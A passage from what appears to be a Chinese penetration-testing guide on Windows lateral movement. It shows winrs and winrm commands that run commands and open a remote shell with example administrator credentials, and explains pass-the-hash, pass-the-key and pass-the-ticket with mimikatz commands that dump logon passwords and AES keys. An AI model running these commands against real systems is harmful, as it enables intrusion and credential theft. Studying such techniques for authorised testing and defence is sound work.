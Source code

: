 winrs 是 Windows 上远程管理提供的客户端程序，允许通过提供的用户凭据，在运行 WinRM 的服务器上执行命令。要求通信双方都安装了 WinRM 服务。

```plain
# 执行系统命令 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "whoami" 
# 获取远程交互式命令行 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "cmd"
```

## [**Winrm.cmd**](#toc_winrmcmd)

winrm.cmd 允许 WMI 对象通过 WinRm 传输进行远程交互，在本地或远程计算机上枚举 WMI 对象实例或调用 WMI 类方法。比如可以通过调用 Win32\_Process 类的 Create 方法来创建远程实例。

```plain
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck @{commandline="notepad.exe"} -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@
```

## [Evil-Winrm](#toc_evil-winrm)

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

# [PTH&PTK&PTT（hash、key、ticket 传递）](#toc_pthptkptthashkeyticket)

```plain
PTH(pass the hash)   #利用 LM 或 NTLM 的值进行的渗透测试
PTT(pass the ticket)  #利用的票据凭证 TGT 进行的渗透测试
PTK(pass the key)   #利用的 ekeys aes256 进行的渗透测试
```

**PTH 和 PTK**

PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。

**如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功**。对于 8.1/2012r2，安装补丁 **kb2871997** 的 Win 7/2008r2/8/2012 等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击

```plain
# mimikatz
privilege::debug      
# NTLM
sekurlsa::logonPasswords     
# AES
sekurlsa::ekeys
```

**总结：KB2871997 补丁后的影响**

[https://www.freebuf.com/column/220740.html](https://www.freebuf.com/column/220740.html)

**PTH：打补丁前任意用户都可以连接，打了补丁后只能 administrator 用户才可以连接**

**PTK：打补丁前不能连接，打补丁后才能任意用户都可以连接（采用 aes256 连接）**
